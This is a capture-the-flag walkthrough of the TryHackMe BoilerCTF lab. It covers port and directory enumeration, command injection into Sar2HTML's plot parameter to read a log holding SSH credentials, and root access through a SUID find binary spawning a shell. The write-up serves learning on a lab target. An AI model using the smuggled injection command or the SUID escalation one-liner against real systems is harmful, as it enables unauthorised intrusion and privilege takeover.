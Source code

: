 # 29 - BoilerCTF

Room Link --> [https://tryhackme.com/room/boilerctf2](https://tryhackme.com/room/boilerctf2)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo nmap 10.10.62.87 -sV -Pn -n -p- -T5 -vv

PORT      STATE SERVICE          REASON
21/tcp    open  ftp     syn-ack ttl 63 vsftpd 3.0.3
80/tcp    open  http             syn-ack ttl 63
10000/tcp open  http    syn-ack ttl 63 MiniServ 1.930 (Webmin httpd)
55007/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)

```
{% endcode %}

#### FTP enumeration

```
ftp 10.10.62.87
ftp> ls -al
229 Entering Extended Passive Mode (|||44125|)
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 22  2019 .
drwxr-xr-x    2 ftp      ftp          4096 Aug 22  2019 ..
-rw-r--r--    1 ftp      ftp            74 Aug 21  2019 .info.txt
226 Directory send OK.
ftp> get .info.txt

┌──(dking㉿dking)-[~/Downloads]
└─$ cat .info.txt           
Whfg jnagrq gb frr vs lbh svaq vg. Yby. Erzrzore: Rahzrengvba vf gur xrl!
```

#### Port 10000 (webmin)

Seems webmin is running on https --> [https://10.10.62.87:10000/](https://10.10.62.87:10000/)

Checking google and Webmin version 1.930 is not vulnerable, so we can't exploit that.

Enumerating with gobuster and discovered a CMS.

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://10.10.62.87 -w /usr/share/dirb/wordlists/common.txt -x txt,php,html,db,ini -t 500 2>/dev/null

# outputs.
/joomla               (Status: 301) [Size: 311] [--> http://10.10.62.87/joomla/]
/manual               (Status: 301) [Size: 311] [--> http://10.10.62.87/manual/]
/robots.txt           (Status: 200) [Size: 257]
```
{% endcode %}

Navigating to --> [http://10.10.62.87/joomla/](http://10.10.62.87/joomla/) and started looking around.

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

More enumeration with gobuster.

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://10.10.62.87/joomla/ -w /usr/share/dirb/wordlists/common.txt -t 500 2>/dev/null

# outputs
/_test                
/~www                 
/_archive             
/bin                  
/build                
/cache                
/components           
/images               
/includes             
/index.php            
/installation         
/language             
/layouts              
/libraries            
/media                
/modules              
/plugins              
/templates            
/tests                
/tmp                  
/_database            
/_files               
/administrator
```
{% endcode %}

**http://10.10.140.202/joomla/\_test/**

<figure><img src="https://i0.wp.com/1.bp.blogspot.com/-MrxP7-ZrTNQ/YJwO4lHCbhI/AAAAAAAAv-w/r1vH82TtD4Idhc4F7JmOF1rEK0jnRV_9QCLcBGAsYHQ/s16000/8.png?w=640&#x26;ssl=1" alt=""><figcaption></figcaption></figure>

Searching for exploit on the Web, there seemed to be a [**Remote Code Execution vulnerability**](https://www.exploit-db.com/exploits/47204) in the Sar2HTML.

<figure><img src="https://i0.wp.com/1.bp.blogspot.com/-nTPVdm9XrU0/YJwPBwVm4aI/AAAAAAAAv-0/Gq3EaR5ULPEgwDlSyzljRs-3rKh7i6YZgCLcBGAsYHQ/s16000/9.png?w=640&#x26;ssl=1" alt=""><figcaption></figcaption></figure>

Reading the [exploit](https://www.exploit-db.com/exploits/47204), it seemed that the plot parameter is injectable and when the command is entered, the output of the command can be viewed in the Select Host Drop Down option.

<figure><img src="https://i0.wp.com/1.bp.blogspot.com/-BvbO2WsVUes/YJwPGq_khzI/AAAAAAAAv-4/n5l9RyNXEQcOjPTtUmS5h6HuM6R34UbhwCLcBGAsYHQ/s16000/10.png?w=640&#x26;ssl=1" alt=""><figcaption></figcaption></figure>

#### **Exploitation**

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And it's wordking, we can list al files. The file is "log.txt".

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

> http://10.10.72.60/joomla/\_test/index.php?plot=;cat log.txt

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*QFXboajcwZk7Q-tM4kXksA.png" alt="" height="367" width="700"><figcaption></figcaption></figure>

And BOOM! We got the **SSH** username: **basterd** and password: **superduperp@\$$**

### Initial Access

Login to ssh with the credentials.

```
ssh basterd@10.10.62.87
```

And we got in.

The other user's password was stored in "backup.sh" file.

```
USER=stoner
#superduperp@$$no1knows
```

### Priv Esc to Stoner

```bash
su stoner # enter the password.

find / -user root -perm -4000 -exec ls -al {} \; 2>/dev/null

# and we saw the "/usr/bin/find" binary.
/usr/bin/find . -exec /bin/sh -p \; -quit

# and got root.
```

